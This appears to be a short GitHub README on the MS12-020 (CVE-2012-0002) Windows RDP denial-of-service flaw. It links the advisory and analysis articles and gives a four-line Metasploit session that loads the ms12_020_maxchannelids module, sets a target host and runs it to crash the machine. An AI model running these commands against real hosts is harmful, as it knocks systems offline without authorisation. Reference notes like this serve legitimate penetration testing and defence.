


# MS12-020

Blue Screen of Death 
```
端口：3389
远程桌面协议RDP拒绝访问漏洞(MS12-020)

```

Vulnerability reference:
 * [MS12-020](https://technet.microsoft.com/library/security/ms12-020)
 * [CVE-2012-0002](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-0002)  

## msf Usage  
[YouTube-MS12-020 RDP Vunlnerability](https://www.youtube.com/watch?v=8FhEK296jPg)  

```
msf > search ms12_020
msf > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf auxiliary(ms12_020_maxchannelids) > set RHOST 192.168.1.35
msf auxiliary(ms12_020_maxchannelids) > run
```

  


## References
* [msf利用远程桌面协议RDP拒绝访问漏洞(MS12-020)](http://blog.sina.com.cn/s/blog_4bf0ab590101gsq7.html)
* [cve-2012-0002（ms12-020）深度分析报告](http://max.book118.com/html/2016/0314/37644373.shtm)
* [http://www.7kb.org/524.html](http://www.7kb.org/524.html)